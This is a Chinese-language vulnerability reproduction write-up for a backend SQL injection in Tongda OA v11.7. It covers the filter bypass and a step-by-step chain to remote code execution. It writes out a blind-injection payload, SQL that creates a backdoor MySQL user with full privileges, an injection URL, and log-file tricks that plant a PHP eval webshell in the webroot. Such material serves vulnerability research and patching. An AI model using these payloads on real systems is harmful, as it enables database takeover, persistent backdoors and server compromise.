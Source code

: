 # 通达OA v11.7后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

> [!NOTE]
>
> 通达OA v11.7

## 环境搭建

[环境地址](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

## 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中

![](image/tongdaoa-3.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php **代码

![](image/tongdaoa-4.png)

使用盲注对SQL注入进行测试

![](image/tongdaoa-5.png)

触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:

![](image/tongdaoa-6.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```

![](image/tongdaoa-7.png)

![](image/tongdaoa-8.png)

添加SQL数据库用户

```sql
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```

![](image/tongdaoa-9.png)

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```

![](image/tongdaoa-10.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```

![](image/tongdaoa-11.png)

写shell

```sql
# 查路径：
select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot\
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='C:/td0a117/webroot/tony.php';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'C:/td0a117/webroot/tony2.php';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```

![](image/tongdaoa-12.png)

## 参考文章

[通达OA v11.7后台SQL注入到RCE[0day]](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)